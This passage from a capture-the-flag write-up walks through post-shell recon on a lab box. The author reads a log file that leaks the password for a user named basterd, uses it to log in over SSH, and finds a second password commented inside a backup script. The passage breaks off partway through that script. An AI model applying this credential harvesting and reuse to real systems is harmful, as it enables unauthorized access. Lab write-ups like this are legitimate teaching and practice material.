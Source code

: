 And we're in! Let's get started with some recon and hopefully getting the user flag...
```shell-session
www-data@Vulnerable:/var/www/html/joomla/_test$ ls
index.php  log.txt  sar2html  sarFILE
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```


> The interesting file name in the folder?
> 
> Answer: `log.txt`

With the credentials for the user `basterd` we can now use the `ssh` service running on port 55007:
```shell-session
$ ssh -l basterd -p 55007 TARGET_IP
password: superduperp@$$

...

$ bash
basterd@Vulnerable:~$ pwd
/home/basterd
basterd@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
```